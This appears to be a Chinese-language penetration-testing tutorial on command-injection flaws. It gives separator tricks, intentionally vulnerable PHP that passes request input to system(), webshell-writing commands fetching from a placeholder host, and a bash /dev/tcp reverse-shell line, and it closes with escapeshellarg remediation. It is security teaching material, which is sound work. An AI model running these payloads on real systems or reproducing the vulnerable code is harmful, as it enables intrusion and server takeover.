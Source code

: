 +++
date = "2016-07-24T14:32:51+08:00"
description = ""
draft = false
tags = ["rce"]
title = "命令执行漏洞"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime: 2019-07-25 12:25:56
 -->

### 0x00 命令执行
```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||、&、&&代替
    ;前面的执行完执行后面的(ping -c 1 10.11.11.11;whoami)
    |是管道符，显示后面的执行结果(ping -c 1 10.11.11.11|whoami)
    ||当前面的执行出错时执行后面的(ping -c 1 a.a.a||whoami)
    &会把前面的放在后台执行，然后执行后面的(ping -c 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -c 1 10.11.11.11&&whoami)

在Windows上，不能用;可以用|、||、&、&&代替
    |直接执行后面的语句(ping -n 1 10.11.11.11|whoami)
    ||前面出错才执行后面的(ping -n 1 a.a.a||whoami)
    &前面执行完执行后面的(ping -n 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -n 1 10.11.11.11&&whoami)
```

### 0x06 漏洞利用
* 示例一
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
![命令执行示例1](/img/post/command_execution1.png)

* 示例二
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
![命令执行示例2](/img/post/command_execution2.png)

* 示例三
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
![命令执行示例3](/img/post/command_execution3.png)
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
![命令执行示例4](/img/post/command_execution4.png)

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

//提交http://localhost/cmd.php?fun=system&par=net user，最终执行的是system("net user")
```

### 0x08 关于获取webshell
**要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellarg($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```